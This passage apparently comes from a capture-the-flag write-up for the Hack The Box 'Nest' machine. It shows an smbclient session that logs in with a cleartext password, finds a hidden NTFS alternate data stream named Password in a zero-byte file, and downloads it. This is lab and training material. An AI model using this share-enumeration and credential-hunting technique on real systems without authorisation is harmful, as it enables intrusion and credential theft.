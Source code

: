 lets go back to the smbclient

### SMB Client

```console
noob2uub@kali:~/ctf/htb/nest$ smbclient -U c.smith //10.10.10.178/Users xRxRxPANCAK3SxRxRx
Try "help" to get a list of possible commands.
smb: \> cd C.Smith
smb: \C.Smith\> ls
  .                                   D        0  Sat Jan 25 23:21:44 2020
  ..                                  D        0  Sat Jan 25 23:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 16:06:17 2019
  user.txt                            A       34  Mon May  2 13:37:20 2022

		5242623 blocks of size 4096. 1840207 blocks available
smb: \C.Smith\> cd HQK Reporting\
cd \C.Smith\HQK\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \C.Smith\> cd HQK Reporting\
cd \C.Smith\HQK\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \C.Smith\> cd HQK Reporting
cd \C.Smith\HQK\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \C.Smith\> cd "HQK Reporting"
smb: \C.Smith\HQK Reporting\> list
0:	server=10.10.10.178, share=Users
smb: \C.Smith\HQK Reporting\> dir
  .                                   D        0  Thu Aug  8 16:06:17 2019
  ..                                  D        0  Thu Aug  8 16:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 05:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 16:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 16:09:05 2019

		5242623 blocks of size 4096. 1840207 blocks available
smb: \C.Smith\HQK Reporting\> allinfo
allinfo <file>
smb: \C.Smith\HQK Reporting\> allinfo Debug Mode Password.txt 
NT_STATUS_OBJECT_NAME_NOT_FOUND getting alt name for \C.Smith\HQK Reporting\Debug
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt" 
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 04:06:12 PM 2019 PDT
access_time:    Thu Aug  8 04:06:12 PM 2019 PDT
write_time:     Thu Aug  8 04:08:17 PM 2019 PDT
change_time:    Wed Jul 21 11:47:12 AM 2021 PDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt":Password 
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \C.Smith\HQK Reporting\> 
```

I did have to get a hint on this one, I was stuck for a while and found the allinfo command, which let me down the line of finding :Passwords. having a password.txt file with 0 bytes was a tip off.
